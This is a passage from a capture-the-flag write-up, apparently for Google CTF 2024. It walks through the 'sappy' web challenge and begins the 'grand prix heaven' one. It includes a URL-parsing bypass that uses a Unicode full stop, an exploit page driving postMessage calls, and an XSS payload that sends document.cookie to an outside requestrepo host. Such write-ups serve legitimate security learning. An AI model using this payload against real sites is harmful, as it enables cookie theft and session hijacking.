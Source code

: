 ```javascript
goog.Uri.parse('\\\\2130706433\\://sappy-web.2024.ctfcompetition.com')
<- goog.Uri {scheme_: '\\\\2130706433\\', userInfo_: '', domain_: 'sappy-web.2024.ctfcompetition.com', port_: null, path_: '', …}
// but fetch will request 2130706433 (localhost in decimal)
fetch('\\\\2130706433\\://sappy-web.2024.ctfcompetition.com')
'GET https://127.0.0.1/://sappy-web.2024.ctfcompetition.com net::ERR_CONNECTION_REFUSED'
```

This was my payload at first. But it didn't work, because starting an url with `//` or `\\` will keep the same schema as the website, which in this case is https. So I either had to find an open redirect in `1.1.1.1`/`8.8.8.8`, buy a certificate for my IP (expensive), or find another way.

**Unicode to the rescue:** Turns out this character `。` (\u3002) actually gets normalized to a simple dot by the browser. I found that by browsing for [old writeups](https://ctftime.org/writeup/10559) (thanks Real World CTF / p4).

So now I can use requestrepo without having to worry about certificates. One nice aspect is that headless chrome doesn't need confirmation to open new windows, so we can get the cookie without worrying about iframes:
```html
<script>
  let win = open("https://sappy-web.2024.ctfcompetition.com/sap.html");
  setTimeout(()=> {
    win.postMessage(JSON.stringify({"method":"initialize", "host":"\\\\eqadvjoy\u3002requestrepo\u3002com\\://sappy-web.2024.ctfcompetition.com/asdf"}),'*');
    setTimeout(() => {
      win.postMessage(JSON.stringify({"method":"render", "page":"exp"}),'*');
    }, 200);
  }, 500);
</script>
```

and on eqadvjoy.requestrepo.com:

```javascript
{"html":"<img src=x onerror=fetch(`//eqadvjoy.requestrepo.com`,{method:`POST`,body:document.cookie}); />"}
```

And we get the flag:

**CTF{parsing_urls_is_always_super_tricky}**

<a name="grand-prix-heaven"></a>
## grand prix heaven (169 pts, 67 solves) - Web

Description:
```
I LOVE F1 ♡ DO YOU LOVE RACING TOO?

URL: https://grandprixheaven-web.2024.ctfcompetition.com/
```

The description is a bit misleading, as we first thought this was going to be a race condition challenge. But then again, we see the URL report functionality so we can assume we need to find XSS somewhere.
